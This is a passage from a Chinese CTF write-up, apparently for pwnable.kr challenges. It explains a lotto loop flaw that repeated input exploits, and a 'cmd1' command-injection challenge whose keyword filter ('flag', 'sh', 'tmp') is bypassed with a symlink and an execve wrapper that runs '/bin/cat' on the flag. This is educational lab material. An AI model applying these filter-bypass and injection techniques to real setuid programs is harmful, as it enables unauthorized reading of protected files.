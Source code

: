 问题处在以下循环：

```
for(i=0; i<6; i++){
    for(j=0; j<6; j++){
        if(lotto[i] == submit[j]){
            match++;
        }
    }
}
```

这个循环对每个输入的字符都比较了6次，而最后只需要有6次匹配则能出flag。只需要输入相同字符，则能大大增加匹配成功的概率(每次成功概率为6/45，多试几次就能得到flag)：

![](http://img1.tuicool.com/qaeeI3Q.png!web)

## 14.cmd1

```
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

从题目可以看出，输入的命令不能含有flag，sh，tmp。在/tmp目录下新建一个文件夹，在这个文件夹中添加一个符号链接：

```
ln -s /home/cmd1/flag ffllaagg
```

在该目录下编译运行如下程序：

```
#include<stdio.h>
int main() {
    char *argv[3] = {0};
    argv[0] = "aaa";
    argv[1] = "/bin/cat ffllaagg";
    //chroot(".");//将临时根目录改成当前目录(这里不能用)
    execve("/home/cmd1/cmd1",argv,NULL);
    return 0;
}
```
